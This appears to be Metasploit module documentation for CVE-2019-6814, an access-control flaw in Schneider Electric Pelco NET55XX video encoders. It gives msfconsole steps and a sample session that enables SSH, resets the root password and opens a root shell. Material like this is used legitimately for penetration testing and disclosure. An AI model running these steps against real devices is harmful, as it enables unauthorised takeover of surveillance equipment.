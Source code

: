 ## Vulnerable Application

Schneider Electric Pelco NET55XX Encoder (CVE 2019-6814)

Adding Schneider Electric Pelco NET55XX module affecting NET55XX versions (NET5501, NET5501-I, NET5501-XT, NET5504, NET5500,NET5516,NET550).
 This module exploits an inadequate access control vulnerability creating a malicious JSON request to the `webUI` encoder, thus allowing the SSH service to be enabled and changing the root password.

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use  use exploit/linux/http/schneider_electric_net55xx_encoder`
- [ ] `set RHOSTS [rhosts]`
- [ ] `set RPORT [rport]`
- [ ] `set NEW_PASSWORD [new password]`
- [ ] `exploit`
- [ ] Verify you get a root shell

## Options

This module can be as simple as setting the RHOST and NEW_PASSWORD option, and you're ready to go.

**NEW_PASSWORD**  

You should  set a new ssh password to the vulnerable device.


## Scenarios

**Schneider Electric Pelco Encoder NET5501-XT**

msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set RHOSTS 192.168.34.2
RHOSTS  => 192.168.34.2
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set RPORT 80
RPORT  => 80
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set NEW_PASSWORD msfrapid7
NEW_PASSWORD => msfrapid7
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > run

[] 192.168.34.2:22 - Attempt to start a SSH connection...
[] 192.168.34.2:80 - Attempt to change the root password...
[+] 192.168.34.2:80 - Successfully changed the root password...
[+] 192.168.34.2:22 - Session established
[] Found shell.
[] Command shell session 1 opened (192.168.34.3:37033 -> 192.168.34.2:22) at 2019-07-03 10:57:07 -0400

uname -a;id
Linux NET5501-XT-K61200103 2.6.37 #1 PREEMPT Fri Aug 8 04:33:08 KST 2014 armv7l unknown
uid=0(root) gid=0(root) groups=0(root)

